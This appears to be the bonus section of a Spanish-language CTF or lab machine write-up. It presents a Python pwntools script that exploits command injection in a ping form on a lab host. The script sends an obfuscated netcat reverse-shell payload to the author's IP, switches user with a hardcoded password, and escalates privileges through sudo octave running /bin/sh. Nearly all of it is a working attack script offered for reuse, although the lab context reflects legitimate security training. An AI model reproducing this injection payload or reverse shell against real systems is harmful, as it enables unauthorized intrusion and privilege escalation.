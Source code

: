 # Bonus
Para practicar un poco de python decidí hacer un script automatizado que pwneara la máquina lo conseguí hasta el usuario nel, pero no se me ocurrió una forma de llegar al root con mi conocimiento actual. Aun así aquí les dejo el script que cree.
```python3
from pwn import *
import sys, requests, signal, time, threading

def Exiting(sig, frame):
    print("Exiting...")
    sys.exit(1)

#CTRL + C
signal.signal(signal.SIGINT, Exiting)

# Variables
url = 'http://ping.networkteste.nyx/'
host = '10.0.2.48' #Cambiar a tu ip
lport = 443 #Cambiar al que quieras
def obtainShell():
    p1 = log.progress("Command Injection")
    time.sleep(1)
    p1.status("Performing Command Injection...")
    time.sleep(1)
    data ={
        'pinger':'{}|/usr/b*n/n[c] -e /\\b\i\\n/////s\h {} {}'.format(host, host, lport),
        'submitt': ''
    }
    r = requests.post(url, data=data)
    p1.success("Command Injection Success!!!")



def main():
    try:
        threading.Thread(target=obtainShell).start()
    except:
        print("Error...")
        sys.exit(1)

    shell = listen(lport, timeout=10).wait_for_connection()

    if shell.sock is None:
        log.failure("Conexion is None")
        sys.exit()
    else:
        log.info("Access to system as www-data")
        time.sleep(1)
    p3 = log.progress("PrivEsc to yan user")
    p3.status("Loggins as yan user")
    shell.sendline("su yan")
    time.sleep(1)
    shell.sendline("m3g4S3cuR3p4zzW0rd")
    p3.success("Log as yan user")
    p4 = log.progress("PrivEsc to nel user")
    time.sleep(1)
    p4.status("Exploiting Octave Binary")
    time.sleep(1)
    shell.sendline("sudo -u nel octave --eval \"system('/bin/sh')\"")
    p4.success("Log as nel user")
    time.sleep(1)
    shell.interactive()
```